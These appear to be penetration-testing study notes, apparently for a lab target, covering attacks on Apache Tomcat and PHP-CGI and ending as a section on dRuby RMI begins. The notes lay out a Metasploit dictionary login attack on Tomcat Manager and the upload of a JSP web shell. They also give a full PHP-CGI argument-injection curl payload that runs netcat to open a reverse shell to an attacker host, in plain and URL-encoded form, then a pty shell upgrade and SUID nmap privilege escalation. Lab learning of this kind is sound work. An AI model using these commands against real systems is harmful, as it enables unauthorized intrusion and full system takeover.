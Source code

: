 The Apache Tomcat server is typically found on 8180 TCP port.
`nmap -sT -sV <TargetIP> -p 8180`: to check if the port is open.

From the `http://<TargetIP>:8180` we can access the default portal, and from there we can access the Tomcat Manager area that is an administrative interface.

`msfconsole -q`, `search tomcat login`, `use auxiliary/scanner/http/tomcat_mgr_login`, `show options`, `set RHOSTS <TargetIP>`, `set RPORT 8180`, `set STOP_ON_SUCCESS true`, `run`: to execute the dictionary login attack.

Once obtained the login credentials, we can access the Tomcat Manager area of the web server, where we can easily deploy Java web applications through the upload of a `.war` (Web Application Archive) file, that essentially is a Java web application compressed in a single file.

*Laudanum* is a tool that provides, among many other features, also the ability to create .war files useful, for example, for carrying out RCE attacks.
`ls /usr/share/laudanum/jsp`:
```
cmd.war		makewar.sh		warfiles
```
We can directly upload the `cmd.war` file that provide us (at `http://<TargetIP>/cmd`) a page where to execute commands directly on the system from the JSP shell.

### Remote Exploitation - Video

1. *PHP CGI argument injection*.
Here we have a PHP CGI argument injection RCE vulnerability, which affects PHP version 5.3.12 5.4.x before version 5.4.2 and exploits a configuration where PHP is configured as a CGI script also known as PHP-CGI. 
We can see the PHP version used at `http://<TargetIP>/phpinfo.php`.
The aim is to decrease the PHP security via a modification of some values of PHP configuration:
`curl -i -s -k -X 'POST' --data-binary "<?php system(\"nc <AttackerIP> <AttackerPort> -e /bin/sh\"); die; ?>" "http://<TargetIP>/cgi-bin/php5?-d+allow_url_include=on+-d+safe_mod=off+-d+suhosin.simulation=on+-d+disable_functions=""+-d+open_basedir=none+-d+auto_prepend_file=php://input+-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-n"`.

Now, we should first encode every special characters, such as: ` `, `=`, `/`, `.`, `"`, `-`, `:`.
`curl -i -s -k -X 'POST' --data-binary "<?php system(\"nc <AttackerIP> <AttackerPort> -e /bin/sh\"); die; ?>" "http://<TargetIP>/cgi-bin/php5?%2dd+allow_url_include%3don+%2dd+safe_mod%3doff+%2dd+suhosin%2esimulation%3don+%2dd+disable_functions%3d""+%2dd+open_basedir%3dnone+%2dd+auto_prepend_file%3dphp://input+%2dd+cgi%2eforce_redirect%3d0+%2dd+cgi%2eredirect_status_env%3d0+%2dn"`.

Now, we can bring up a `netcat` listener on our attacker system: `nc -nl -p 5555 -v`.
And we can issue our cURL command and get back a reverse shell from the target system.

In order to get a semi-interactive shell: `python -c "import pty; pty.spawn('/bin/sh');"`.

Let's see if we can find a SUID file (`/usr/bin/nmap`): `find / -type f -perm -4000 2> /dev/null`.
To get sudo privileges (via GTFOBins): `nmap --interactive`, `!sh`, `id`.

2. *dRuby RMI*.
DRb (Distributed Ruby) is a standard Ruby library that provides infrastructure for remote communication between Ruby objects running on separate processes or on different machines within a network. It enables Ruby objects to invoke methods on remote objects as if they were local objects, simplifying the development of distributed applications in Ruby. DRb facilitates transparent communication between Ruby processes, allowing developers to create distributed and scalable systems using the Ruby programming language.
It can be found running at TCP 8787 port.
